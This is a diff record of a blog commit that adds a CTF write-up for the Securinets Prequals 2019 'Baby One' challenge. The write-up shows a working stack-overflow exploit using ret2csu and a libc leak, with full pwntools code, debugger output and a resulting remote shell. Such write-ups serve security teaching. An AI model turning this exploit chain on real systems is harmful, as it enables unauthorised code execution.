

Before and after one commit to W3ndige/rootnetsec.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 1263 px of the page at 86% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
Securinets Prequals - Baby One write up

````diff
--- a/_posts/2019-03-24-securinets-prequals-automateme.md
+++ b/_posts/2019-03-24-securinets-prequals-automateme.md
@@ -1,7 +1,7 @@
 ---
 layout:     post
 title:      'Securinets Prequals 2019 - AutomateMe'
-date:       2019-03-11 0:00:00
+date:       2019-03-24 0:00:00
 author:     'W3ndige'
 permalink: /:title/
 category: 'Securinets Prequals 2019'
--- /dev/null
+++ b/_posts/2019-03-26-securinets-prequals-baby-one.md
@@ -0,0 +1,475 @@
+---
+layout:     post
+title:      'Securinets Prequals 2019 - Baby One'
+date:       2019-03-26 0:00:00
+author:     'W3ndige'
+permalink: /:title/
+category: 'Securinets Prequals 2019'
+---
+
+A little bit late but here's my write up for **Securinets Prequals 2019** challenge called **Baby One**. Really cool task with simple stack buffer overflow, but requires some 'universal' exploitation knowledge. Let's take a look at it.
+
+Firstly, let's analyze it with `radare2`.
+
+```text
+w3ndige@main ~/D/c/s/baby-one> r2 -AAA baby1
+[x] Analyze all flags starting with sym. and entry0 (aa)
+[x] Analyze function calls (aac)
+[x] Analyze len bytes of instructions for references (aar)
+[x] Enable constraint types analysis for variables
+ -- No fix, no sleep
+[0x00400500]> afl
+0x00400478    3 26           sym._init
+0x004004b0    1 6            sym.imp.write
+0x004004c0    1 6            sym.imp.read
+0x004004d0    1 6            sym.imp.__libc_start_main
+0x004004e0    1 6            sym.imp.setvbuf
+0x004004f0    1 6            fcn.004004f0
+0x00400500    1 41           entry0
+0x00400530    4 50   -> 41   sym.deregister_tm_clones
+0x00400570    4 58   -> 55   sym.register_tm_clones
+0x004005b0    3 28           sym.__do_global_dtors_aux
+0x004005d0    4 38   -> 35   entry.init0
+0x004005f6    1 96           sym.main
+0x00400660    4 101          sym.__libc_csu_init
+0x004006d0    1 2            sym.__libc_csu_fini
+0x004006d4    1 9            sym._fini
+[0x00400500]> pdf @sym.main
+            ;-- main:
+/ (fcn) sym.main 96
+|   int sym.main (int argc, char **argv, char **envp);
+|           ; var int var_30h @ rbp-0x30
+|           ; DATA XREF from entry0 (0x40051d)
+|           0x004005f6      55             push rbp
+|           0x004005f7      4889e5         mov rbp, rsp
+|           0x004005fa      4883ec30       sub rsp, 0x30               ; '0'
+|           0x004005fe      488b05430a20.  mov rax, qword [obj.stdout] ; obj.__TMC_END ; [0x601048:8]=0
+|           0x00400605      b900000000     mov ecx, 0
+|           0x0040060a      ba02000000     mov edx, 2
+|           0x0040060f      be00000000     mov esi, 0
+|           0x00400614      4889c7         mov rdi, rax
+|           0x00400617      e8c4feffff     call sym.imp.setvbuf        ; int setvbuf(FILE*stream, char *buf, int mode, size_t size)
+|           0x0040061c      ba1d000000     mov edx, 0x1d               ; 29
+|           0x00400621      bee4064000     mov esi, str.Welcome_to_securinets_Quals ; 0x4006e4 ; "Welcome to securinets Quals!\n"
+|           0x00400626      bf01000000     mov edi, 1
+|           0x0040062b      b800000000     mov eax, 0
+|           0x00400630      e87bfeffff     call sym.imp.write          ; ssize_t write(int fd, void *ptr, size_t nbytes)
+|           0x00400635      488d45d0       lea rax, [var_30h]
+|           0x00400639      ba2c010000     mov edx, 0x12c              ; 300
+|           0x0040063e      4889c6         mov rsi, rax
+|           0x00400641      bf00000000     mov edi, 0
+|           0x00400646      b800000000     mov eax, 0
+|           0x0040064b      e870feffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
+|           0x00400650      4831d2         xor rdx, rdx
+|           0x00400653      90             nop
+|           0x00400654      c9             leave
+\           0x00400655      c3             ret
+```
+
+In disassembly you can see that the the `read` call tries to read `300` bytes into the buffer of size `0x30`. With additional checks you can see that there's no place for simple shellcoding as `NX` bit is set, so no execution on the stack.
+
+```text
+[0x00400500]> i~nx
+nx       true
+```
+
+We can check if it's possible to overwrite the place on the stack where `rsp` register points to - which after `ret` instruction will be popped into the `rip` register allowing us to control the execution.
+
+```text
+gdb-peda$ pattern_create 300 input
+Writing pattern of 300 chars to filename "input"
+gdb-peda$ r < input
+Starting program: /home/w3ndige/Development/ctf-solutions/securinets-quals-2019/baby-one/baby1 < input
+Welcome to securinets Quals!
+
+Program received signal SIGSEGV, Segmentation fault.
+
+[----------------------------------registers-----------------------------------]
+RAX: 0x12c
+RBX: 0x0
+RCX: 0x7ffff7eba775 (<read+21>:	cmp    rax,0xfffffffffffff000)
+RDX: 0x0
+RSI: 0x7fffffffe450 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
+RDI: 0x0
+RBP: 0x4147414131414162 ('bAA1AAGA')
+RSP: 0x7fffffffe488 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G"...)
+RIP: 0x400655 (<main+95>:	ret)
+R8 : 0x7ffff7f8e720 --> 0x0
+R9 : 0x7ffff7f93500 (0x00007ffff7f93500)
+R10: 0x7ffff7ff0380 (<strcmp+3200>:	pxor   xmm0,xmm0)
+R11: 0x246
+R12: 0x400500 (<_start>:	xor    ebp,ebp)
+R13: 0x7fffffffe560 ("%IA%eA%4A%JA%fA%5A%KA%gA%6A%\377\177")
+R14: 0x0
+R15: 0x0
+EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
+[-------------------------------------code-------------------------------------]
+   0x400650 <main+90>:	xor    rdx,rdx
+   0x400653 <main+93>:	nop
+   0x400654 <main+94>:	leave
+=> 0x400655 <main+95>:	ret
+   0x400656:	nop    WORD PTR cs:[rax+rax*1+0x0]
+   0x400660 <__libc_csu_init>:	push   r15
+   0x400662 <__libc_csu_init+2>:	push   r14
+   0x400664 <__libc_csu_init+4>:	mov    r15d,edi
+[------------------------------------stack-------------------------------------]
+0000| 0x7fffffffe488 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G"...)
+0008| 0x7fffffffe490 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%"...)
+0016| 0x7fffffffe498 ("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A"...)
+0024| 0x7fffffffe4a0 ("AJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4"...)
+0032| 0x7fffffffe4a8 ("AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%"...)
+0040| 0x7fffffffe4b0 ("6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA"...)
+0048| 0x7fffffffe4b8 ("A7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%\377\177")
+0056| 0x7fffffffe4c0 ("AA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%\377\177")
+[------------------------------------------------------------------------------]
+Legend: code, data, rodata, value
+Stopped reason: SIGSEGV
+0x0000000000400655 in main ()
+gdb-peda$ pattern_search
+Registers contain pattern buffer:
+RBP+0 found at offset: 48
+Registers point to pattern buffer:
+[RSI] --> offset 0 - size ~203
+[RSP] --> offset 56 - size ~203
+[R13] --> offset 272 - size ~36
+Pattern buffer found at:
+0x00007fffffffe450 : offset    0 - size  300 ($sp + -0x38 [-14 dwords])
+References to pattern buffer found at:
+0x00007fffffffe098 : 0x00007fffffffe450 ($sp + -0x3f0 [-252 dwords])
+```
+
+Great, that's what we need. Offset `56` will allow us to later control the flow of the execution. Now we need to find, where actually we want to jump. By viewing the gadgets in `ropper` there didn't seem to be any useful gadgets. Also, we do not have any `system` call in the binary to jump into. To be honest, I was stuck for a long time in this section until I've found a possible way to exploit this binary.
+
+Firstly, we need to have control of `rdx` register. As there is no `pop rdx` gadget, I've decided to use `ret2csu` technique learned from the last [RopEmporium](https://ropemporium.com/) challenge. This way we'll have control of all three registers.
+
+
+```text
+[0x00400500]> pdf @sym.__libc_csu_init
+/ (fcn) sym.__libc_csu_init 101
+|   sym.__libc_csu_init (int arg1, int arg2, int arg3);
+|           ; arg int arg1 @ rdi
+|           ; arg int arg2 @ rsi
+|           ; arg int arg3 @ rdx
+|           ; DATA XREF from entry0 (0x400516)
+|           0x00400660      4157           push r15
+|           0x00400662      4156           push r14
+|           0x00400664      4189ff         mov r15d, edi               ; arg1
+|           0x00400667      4155           push r13
+|           0x00400669      4154           push r12
+|           0x0040066b      4c8d259e0720.  lea r12, obj.__frame_dummy_init_array_entry ; loc.__init_array_start ; 0x600e10
+|           0x00400672      55             push rbp
+|           0x00400673      488d2d9e0720.  lea rbp, obj.__do_global_dtors_aux_fini_array_entry ; loc.__init_array_end ; 0x600e18
+|           0x0040067a      53             push rbx
+|           0x0040067b      4989f6         mov r14, rsi                ; arg2
+|           0x0040067e      4989d5         mov r13, rdx                ; arg3
+|           0x00400681      4c29e5         sub rbp, r12
+|           0x00400684      4883ec08       sub rsp, 8
+|           0x00400688      48c1fd03       sar rbp, 3
+|           0x0040068c      e8e7fdffff     call sym._init
+|           0x00400691      4885ed         test rbp, rbp
+|       ,=< 0x00400694      7420           je 0x4006b6
+|       |   0x00400696      31db           xor ebx, ebx
+|       |   0x00400698      0f1f84000000.  nop dword [rax + rax]
+|       |   ; CODE XREF from sym.__libc_csu_init (0x4006b4)
+|      .--> 0x004006a0      4c89ea         mov rdx, r13
+|      :|   0x004006a3      4c89f6         mov rsi, r14
+|      :|   0x004006a6      4489ff         mov edi, r15d
+|      :|   0x004006a9      41ff14dc       call qword [r12 + rbx*8]
+|      :|   0x004006ad      4883c301       add rbx, 1
+|      :|   0x004006b1      4839eb         cmp rbx, rbp
+|      `==< 0x004006b4      75ea           jne 0x4006a0
+|       |   ; CODE XREF from sym.__libc_csu_init (0x400694)
+|       `-> 0x004006b6      4883c408       add rsp, 8
+|           0x004006ba      5b             pop rbx
+|           0x004006bb      5d             pop rbp
+|           0x004006bc      415c           pop r12
+|           0x004006be      415d           pop r13
+|           0x004006c0      415e           pop r14
+|           0x004006c2      415f           pop r15
+\           0x004006c4      c3             ret
+```
+
+Firstly, we'll jump to the last section of this function, popping values into the coresponding registers.
+
+```text
+|           0x004006ba      5b             pop rbx
+|           0x004006bb      5d             pop rbp
+|           0x004006bc      415c           pop r12
+|           0x004006be      415d           pop r13
+|           0x004006c0      415e           pop r14
+|           0x004006c2      415f           pop r15
+\           0x004006c4      c3             ret
+```
+
+After `ret` instruction, we'll make another jump slightly higher in this function, that will move values from popped registers into the registers we want to control.
+
+```text
+|      .--> 0x004006a0      4c89ea         mov rdx, r13
+|      :|   0x004006a3      4c89f6         mov rsi, r14
+|      :|   0x004006a6      4489ff         mov edi, r15d
+|      :|   0x004006a9      41ff14dc       call qword [r12 + rbx*8]
+|      :|   0x004006ad      4883c301       add rbx, 1
+|      :|   0x004006b1      4839eb         cmp rbx, rbp
+|      `==< 0x004006b4      75ea           jne 0x4006a0
+```
+
+That way, we'll have everything we want in registers `rdx`, `rsi` and `edi`. We also have to remember that `rbx` should be `0` and `rbp` should be `1` to satisfy the comparision at address `0x004006b1`. And of course, we'll have to remeber about the `call` from `0x004006a9`. Once again, we'll jump to `_init` function, so let's find it address in `.dynamic` section.
+
+```
+w3ndige@main ~/D/c/s/baby-one> readelf -S  baby1
+There are 31 section headers, starting at offset 0x1a70:
+...
+  [22] .dynamic          DYNAMIC          0000000000600e28  00000e28
+       00000000000001d0  0000000000000010  WA       6     0     8
+  [23] .got              PROGBITS         0000000000600ff8  00000ff8
+...
+```
+
+Address of this section is `0000000000600e28`, so at this place we can look in `gdb` for the address of `_init`.
+
+```
+gdb-peda$ x/20wx 0x00600e28
+0x600e28:	0x00000001	0x00000000	0x00000001	0x00000000
+0x600e38:	0x0000000c	0x00000000	0x00400478	0x00000000
+0x600e48:	0x0000000d	0x00000000	0x004006d4	0x00000000
+0x600e58:	0x00000019	0x00000000	0x00600e10	0x00000000
+0x600e68:	0x0000001b	0x00000000	0x00000008	0x00000000
+```
+
+As the address of `_init` in disassembly is `0x00400478`, we can calculate that it's placed at address `0x600e38 + 0x8`.
+
+So, we have everything we want to satsfy the `ret2csu` technique. My next step was to leak addresses of `libc`. If we leak address of `read` and `write`, we may be able to identif the version of used `libc`, and finally calculate the `base` address, address of `system` and address of `/bin/sh` string.
+
+With control of `rdx`, we will be able to call the system('/bin/sh')` and pwn this challenge.
+
+Firstly, let's start with gathering all the information we've previously gathered into a nice `Python` script.
+
+```python
+from pwn import *
+
+baby1 = ELF('./baby1')
+
+main        = baby1.symbols[b'main']
+write_plt   = baby1.symbols[b'write']
+write_got   = baby1.got[b'write']
+read_got    = baby1.got[b'read']
+
+lib_csu_pop     = 0x004006ba
+lib_csu_mov     = 0x004006a0
+
+init            = 0x600e38 + 0x8
+```
+
+After that, we may be able to use `ret2csu` technique to leak the address of both `read` and `write`.
+
+```
+def leak_libc(function_address):
+    payload = 'A' * 56
+
+    payload += p64(lib_csu_pop)
+    payload += p64(0x00)            # pop rbx
+    payload += p64(0x01)            # pop rbp
+    payload += p64(init)            # pop r12
+    payload += p64(0x08)            # pop r13 (rdx after lib_csu_mov)
+                                    # How many bytes to write.
+
+    payload += p64(function_address)# pop r14 (rsi)
+                                    # Here we'll supply address of
+                                    # GOT entries for read and write.
+
+    payload += p64(0x01)            # pop r15 (edi)
+                                    # Write to stdout.
+
+    payload += p64(lib_csu_mov)     # Upper part of libc_csu moving
+                                    # moves our values into correct registers.
+
+    payload += p64(0x00)            # add rsp,0x8 padding
+    payload += p64(0x00)            # rbx
+    payload += p64(0x00)            # rbp
+    payload += p64(0x00)            # r12
+    payload += p64(0x00)            # r13
+    payload += p64(0x00)            # r14
+    payload += p64(0x00)            # r15
+    payload += p64(write_plt)       # Finally write the leaked address
+    payload += p64(main)            # Go to main to repeat the process without
+                                    # connecting once again.
+    return payload
+
+p = remote('51.254.114.246', 1111)
+p.recv(1024)
+
+
+p.sendline(leak_libc(write_got))
+
+libc_write = u64(p.recv(8))
+print("[!] Write lib address libc: " + hex(libc_write))
+
+p.recv(1024)
+p.sendline(leak_libc(read_got))
+libc_read = u64(p.recv(8))
+print("[!] Write lib address libc: " + hex(libc_read))
+
+```
+
+Now we can end the script and get the leaked addresses.
+
+```text
+w3ndige@main ~/D/c/s/baby-one> python2 exploit.py
+[*] '/home/w3ndige/Development/ctf-solutions/securinets-quals-2019/baby-one/baby1'
+    Arch:     amd64-64-little
+    RELRO:    Partial RELRO
+    Stack:    No canary found
+    NX:       NX enabled
+    PIE:      No PIE (0x400000)
+[+] Opening connection to 51.254.114.246 on port 1111: Done
+[!] Write lib address libc: 0x7f7d8e14a2b0
+[!] Write lib address libc: 0x7f7d8e14a250
+```
+
+Great, we have both addresses leaked. Now we can identify the used `libc` with [this](https://libc.blukat.me/) service.
+
+![Ghidra View](/img/securinets-prequals/libc-found-offsets.png){:class="img-responsive center-block"}
+
+Both of these versions have the same offsets. Let's use them to prepare the final part of the exploit.
+
+```python
+# Our libc is in version libc6_2.23-0ubuntu10_amd64
+
+write_offset    = 0x0f72b0
+libc_base       = libc_write - write_offset
+
+system_offset   = 0x045390
+system_address  = libc_base + system_offset
+
+sh_address      = libc_base + 0x18cd57
+
+pop_rdi         = 0x00000000004006c3
+
+# Uncomment for debugging
+#pid = util.proc.pidof('baby1')[0]
+#print("[*] PID = " + str(pid))
+#util.proc.wait_for_debugger(pid)
+
+exploit = "A" * 56
+
+exploit += p64(pop_rdi)
+exploit += p64(sh_address)
+exploit += p64(system_address)
+
+p.sendline(exploit)
+p.interactive()
+```
+
+And final exploit can be seen here.
+
+```python
+from pwn import *
+
+baby1 = ELF('./baby1')
+
+main        = baby1.symbols[b'main']
+write_plt   = baby1.symbols[b'write']
+write_got   = baby1.got[b'write']
+read_got    = baby1.got['read']
+
+lib_csu_pop     = 0x004006ba
+lib_csu_mov     = 0x004006a0
+
+init            = 0x600e38 + 0x8
+
+def leak_libc(function_address):
+    payload = 'A' * 56
+
+    payload += p64(lib_csu_pop)
+    payload += p64(0x00)            # pop rbx
+    payload += p64(0x01)            # pop rbp
+    payload += p64(init)            # pop r12
+    payload += p64(0x08)            # pop r13 (rdx after lib_csu_mov)
+                                    # How many bytes to write.
+
+    payload += p64(function_address)# pop r14 (rsi)
+                                    # Here we'll supply address of
+                                    # GOT entries for read and write.
+
+    payload += p64(0x01)            # pop r15 (edi)
+                                    # Write to stdout.
+
+    payload += p64(lib_csu_mov)     # Upper part of libc_csu moves
+                                    # our values into correct registers.
+
+    payload += p64(0x00)            # add rsp,0x8 padding
+    payload += p64(0x00)            # rbx
+    payload += p64(0x00)            # rbp
+    payload += p64(0x00)            # r12
+    payload += p64(0x00)            # r13
+    payload += p64(0x00)            # r14
+    payload += p64(0x00)            # r15
+    payload += p64(write_plt)       # Finally write the leaked address
+    payload += p64(main)            # Go to main to repeat the process without
+                                    # connecting once again.
+    return payload
+
+#p = process('./baby1')
+p = remote('51.254.114.246', 1111)
+p.recv(1024)
+
+
+p.sendline(leak_libc(write_got))
+
+libc_write = u64(p.recv(8))
+print("[!] Write lib address libc: " + hex(libc_write))
+
+p.recv(1024)
+p.sendline(leak_libc(read_got))
+libc_read = u64(p.recv(8))
+print("[!] Write lib address libc: " + hex(libc_read))
+
+# Our libc is in version libc6_2.23-0ubuntu10_amd64
+
+write_offset    = 0x0f72b0
+libc_base       = libc_write - write_offset
+
+system_offset   = 0x045390
+system_address  = libc_base + system_offset
+
+sh_address      = libc_base + 0x18cd57
+
+pop_rdi         = 0x00000000004006c3
+
+# Uncomment for debugging
+#pid = util.proc.pidof('baby1')[0]
+#print("[*] PID = " + str(pid))
+#util.proc.wait_for_debugger(pid)
+
+exploit = "A" * 56
+
+exploit += p64(pop_rdi)
+exploit += p64(sh_address)
+exploit += p64(system_address)
+
+p.sendline(exploit)
+p.interactive()
+```
+
+Now we can pwn it and get the flag.
+
+```
+w3ndige@main ~/D/c/s/baby-one> python2 exploit.py
+[*] '/home/w3ndige/Development/ctf-solutions/securinets-quals-2019/baby-one/baby1'
+    Arch:     amd64-64-little
+    RELRO:    Partial RELRO
+    Stack:    No canary found
+    NX:       NX enabled
+    PIE:      No PIE (0x400000)
+[+] Opening connection to 51.254.114.246 on port 1111: Done
+[!] Write lib address libc: 0x7f42deb672b0
+[!] Write lib address libc: 0x7f42deb67250
+[*] Switching to interactive mode
+Welcome to securinets Quals!
+$ ls
+baby1
+flag.txt
+main.c
+$ cat flag.txt
+securinets{controlling_rdx_for_the_win}
+```
````
Also changed, not shown: _posts/2019-03-10-ropemporium-ret2csu.md (+1 -1 lines), img/securinets-prequals/libc-found-offsets.png (added).
